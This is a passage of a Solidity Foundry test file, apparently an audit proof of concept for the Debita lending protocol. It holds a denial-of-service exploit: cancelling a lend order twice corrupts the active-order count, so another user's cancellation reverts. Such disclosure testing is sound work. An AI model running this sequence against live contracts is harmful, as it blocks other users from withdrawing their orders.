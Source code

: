 ```solidity 
            wbtc.approve(address(taxTokenReceipts), type(uint256).max);
            wbtc.approve(address(incentives), type(uint256).max);
            
            vm.stopPrank();
        }
  
    }

    function _setOracles() internal {
        oracleChainlink = new DebitaChainlink(address(0x0), address(this));
        oraclePyth = new DebitaPyth(address(0x0), address(0x0));
        aggregator.setOracleEnabled(address(oracleChainlink), true);
        aggregator.setOracleEnabled(address(oraclePyth), true);
        priceFeedAERO = new MockV3Aggregator(8, 1.28e8);
        priceFeedUSDC = new MockV3Aggregator(8, 1e8);
        priceFeedWBTC = new MockV3Aggregator(8, 90_000e8);
        oracleChainlink.setPriceFeeds(address(AERO), address(priceFeedAERO));
        oracleChainlink.setPriceFeeds(address(USDC), address(priceFeedUSDC));
        oracleChainlink.setPriceFeeds(address(wbtc), address(priceFeedWBTC));

    }

 function test_cancelOfferDOSAttack() public {
      bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);
        uint256[] memory ltvs = allDynamicData.getDynamicUintArray(1);
        uint256[] memory ratio = allDynamicData.getDynamicUintArray(1);
        address[] memory acceptedPrinciples = allDynamicData.getDynamicAddressArray(1);
        address[] memory acceptedCollaterals = allDynamicData.getDynamicAddressArray(1);
        address[] memory oraclesPrinciples = allDynamicData.getDynamicAddressArray(1);
        ltvs[0] = 6340;
        acceptedCollaterals[0] = address(USDC);
        oraclesActivated[0] = true;
        acceptedPrinciples[0] = address(AERO);
        oraclesPrinciples[0] = address(oracleChainlink);
        ratio[0] = 0;
         ltvs[0]= 9187;
        vm.prank(ALICE);
        address lendOrderAlice= lendFactory.createLendOrder(false, oraclesActivated, false, ltvs, 1, 91133 , 86400 , acceptedCollaterals, address(AERO), oraclesPrinciples, ratio, address(oracleChainlink), 10_000e18);
        vm.prank(BOB);
        address lendOrderBob= lendFactory.createLendOrder(false, oraclesActivated, false, ltvs, 1, 91133 , 86400 , acceptedCollaterals, address(AERO), oraclesPrinciples, ratio, address(oracleChainlink), 1);
        vm.startPrank(BOB);
         DLOImplementation(lendOrderBob).cancelOffer();
        ERC20( acceptedPrinciples[0]).approve(lendOrderBob, 1);
      DLOImplementation(lendOrderBob).addFunds(1);

      DLOImplementation(lendOrderBob).cancelOffer();
      vm.stopPrank();
      assertEq(lendFactory.activeOrdersCount(),0);
       vm.startPrank(ALICE);
      vm.expectRevert();
      DLOImplementation(lendOrderAlice).cancelOffer();
      vm.stopPrank();
 }
  
}


contract WBTC is ERC20Mock {
    uint8 private _decimals;
```